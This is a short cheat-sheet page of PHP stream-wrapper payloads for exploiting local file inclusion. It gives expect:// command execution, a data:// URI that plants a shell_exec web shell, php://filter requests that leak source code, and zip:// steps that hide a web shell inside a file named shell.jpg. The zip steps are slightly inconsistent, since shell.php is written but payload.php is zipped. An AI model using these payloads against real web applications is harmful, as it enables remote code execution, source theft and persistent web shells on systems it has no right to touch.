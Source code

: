 ```yaml
---
title: "Wrappers"
draft: false
images: []
description: "Useful PHP Wrappers"
lead: "Useful PHP Wrappers"
menu:
  docs:
    parent: "Wapp"
weight: 100
toc: true
---
```


### PHP WRAPPER EXPECT
```
http://ex.com/index.php?page=expect://whoami
```
### PHP WRAPPER DATA://
```
http://www.ex.com/index.php?page=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>
```
### PHP WRAPPER FILTER://
```
http://ex.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://ex.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```
### PHP WRAPPER ZIP://
```
echo "<?php \$_GET['param1'](\$_GET['param2']); ?>" > shell.php
zip -0 payload.zip payload.php
mv payload.zip shell.jpg;
rm payload.php
```
```
http://ex.com/index.php?page=zip://shell.jpg%23payload.php
```
